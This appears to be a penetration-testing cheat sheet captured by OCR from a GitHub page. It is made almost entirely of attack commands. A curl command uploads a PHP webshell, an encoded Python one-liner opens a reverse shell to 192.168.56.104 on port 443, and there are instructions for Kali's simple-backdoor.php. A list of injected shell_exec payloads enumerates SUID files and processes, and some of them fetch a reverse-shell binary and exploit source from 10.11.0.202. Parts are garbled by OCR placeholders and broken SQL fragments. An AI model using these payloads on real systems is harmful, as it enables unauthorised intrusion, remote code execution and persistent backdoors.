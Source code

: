 ### use curl to put up a webshell

```
curl -X PUT -d '<?php system(*dollar-sign*_GET["c"]);' http://*target*1.php
```
### use curl to put up a webshell on port 443

```
curl "http://*target*/test/1.php?c=python+-c+%27import+socket%2csubprocess%2cos%3bs%3dsocket.socket(socket.AF_INET%2csocket.SOCK_STREAM)%3bs.connect((%22192.168.56.104%22%2c443))%3bos.dup2(s.fileno()%2c0)%3b+os.dup2(s.fileno()%2c1)%3b+os.dup2(s.fileno()%2c2)%3bp%3dsubprocess.call(%5b%22%2fbin%2fsh%22%2c%22-i%22%5d)%3b%27"
```
### kali included webshells

/usr/share/webshells

simply upload the "simple-backdoor.php file and then pass commands to it via

```
*target*/shells/simple-backdoor.php?cmd=ls
```
Bellow are some examples of what commands could be possible with command injection via simple-backdoor.php?cmd=


```
<?php echo shell_exec(*dollar-sign*_GET['cmd']);?>

<?php phpinfo()?>

<?php echo shell_exec('ping -n 1 10.11.0.202');?>

<?php *dollar-sign*output = shell_exec("/bin/pwd"); echo "<pre>*dollar-sign*output</pre>"; ?>' WHERE ROWID = 1

<?php *dollar-sign*output = shell_exec("/bin/ls -la"); echo "<pre>*dollar-sign*output</pre>"; ?>' WHERE ROWID = 1

<?php *dollar-sign*output = shell_exec("whereis cat 2>/dev/null");echo"<pre>*dollar-sign*output</pre>"; ?>' WHERE ROWID = 1
cat: /bin/cat /usr/share/man/man1/cat.1.gz /usr/src/bin/cat

<?php *dollar-sign*output = shell_exec("/usr/bin/find / -perm -4000 -type f 2>/dev/null");echo"<pre>*dollar-sign*output</pre>"; ?>' WHERE ROWID = 1

<?php *dollar-sign*output = shell_exec("/usr/bin/find / base64 2>/dev/null");echo"<pre>*dollar-sign*output</pre>"; ?>' WHERE ROWID = 1

<?php *dollar-sign*output = shell_exec("ps aux");echo"<pre>*dollar-sign*output</pre>"; ?>' WHERE ROWID =
Listing directorys and permissions

<?php *dollar-sign*output = shell_exec("/usr/bin/find / ! -user root -type d -ls");echo"<pre>*dollar-sign*output</pre>"; ?>' WHERE ROWID = 1
proof of concept below

<?php *dollar-sign*output = shell_exec("/usr/bin/perl /usr/local/databases/evil.pl");echo"<pre>*dollar-sign*output</pre>"; ?>' WHERE ROWID = 1

<?php *dollar-sign*output = shell_exec('/usr/bin/fetch -o /var/tmp/21bsd http://10.11.0.202/bsd21rev');echo"<pre>*dollar-sign*output</pre>"; ?>' WHERE ROWID = 1

<?php *dollar-sign*output = shell_exec("/usr/bin/fetch -o /var/tmp/28718.c  http://10.11.0.202/28718.c");echo"<pre>*dollar-sign*output</pre>"; ?>' WHERE ROWID = 1

```